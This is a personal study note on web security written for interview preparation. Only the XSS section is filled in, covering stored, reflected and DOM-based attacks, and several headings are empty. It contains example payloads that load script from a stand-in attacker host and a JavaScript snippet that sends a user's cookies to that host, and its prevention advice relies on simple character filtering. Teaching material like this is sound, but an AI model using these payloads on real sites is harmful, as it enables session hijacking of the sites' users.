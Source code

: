 When I was in an interview of Tencent, the interviewer asked me how much Web security questions you know?

I found I don't have a systemic knowledge network of it.

So, there are some points I collected for memory.

## CSRF



## cookie



## XSS

It is Cross Site Script. But its abbreviation is CSS, which is the same as Cascading 
Style Sheets. SO....it becomes XSS. 

XSS is a code injection attack that allows an attacker to execute malicious 
JavaScript in another user's browser.

It includes these 3 types:

### Persistent XSS

Normally happened in those websites users can post their input. The malicious code will be saved in 
the database, therefore, each user who opened the page will be attacked.

For example, if there is a input tag, user can post their own content by it. Other users can open this page see 
the content.

```html
<!--the content in this tag will be post to database-->
<input type="text"> 

<!--if a user input "Users content", other user can see as below-->
<p>Users content</p>
```

But, if someone input a string as below:
`<script src="http://www.malicious-site.com/code"></script>`

the final result may as:

```html
<p><script src="http://www.malicious-site.com/code"></script></p>
```

And the script like as below:

```js
var img = document.createElement('img');
img.src = 'http://www.malicious-site.com/save-cookie?cookie=' + document.cookie;
document.body.appendChild(img);
```

In this way, the malicious site can get the cookie of each user who open the page.

To prevent it, I think the best way is to filter users' post content.

### Reflected XSS

Its principle is the same as Persistent XSS, attacker try to get user's personal information 
by insert HTML tag.

For example, there is a error page who shows error messages from the server by url, like 
`http://www.some-page.com/error?message=Page%20not%20found`, the content in `message` will be showed in 
HTML, like:

```html
<p>Page not found</p>
```

If an attack inputs an URL like `http://www.some-page.com/error?message=<script src="http://www.malicious-site.com/code"></script>`,
The final HTML will become:

```html
<p><script src="http://www.malicious-site.com/code"></script></p>
```

Next processes will be the same as Persistent XSS.

### DOM-based XSS

According to some of articles on the Internet, Dom-based XSS is a special Reflected XSS.

In my understanding, DOM-based XSS triggers attack via modifying DOM content, such as 
`innerHTML`, which is the same as Reflected XSS. 

But, their difference is that Dom-based XSS won't leave a mark in the server side, compared to Reflected XSS
which will leave a url record in the server request log.

There is a simple example updated from last example of Reflected XSS:

we can use a new url like:`http://www.some-page.com/error?message=Page%20not%20found#%3Cscript%20src%3D%22http%3A%2F%2Fwww.malicious-site.com%2Fcode%22%3E%3C%2Fscript%3E`.

The biggest difference is that we can use `location.hash` to inject malicious code to the page, which won't show the url after `#` in the 
server side. In this way, it is more difficult for website maintainers to find the attack by checking request log.

So the biggest difference among Reflected XSS and DOM-based XSS is that DOM-based XSS cannot be found in the server side, it is 
pure attack happened on client side.

### How to prevent XSS

I think the best way to prevent XSS is to forbid users to change HTML content, but this is difficult especially for those websites 
based on UGC. 

So, the feasible way is to filter url's parameters and UGC, such as some of special chars, `<>\/*;'`.

There are some alternative chars to replace sensitive chars in JS, such as `\u003c` and `\x3c` to replace `<`, and `\u003e` and `\x3e` to 
replace `>`.

## SQL Injection



## Command Injection



## DDoS attack



## Traffic hijacking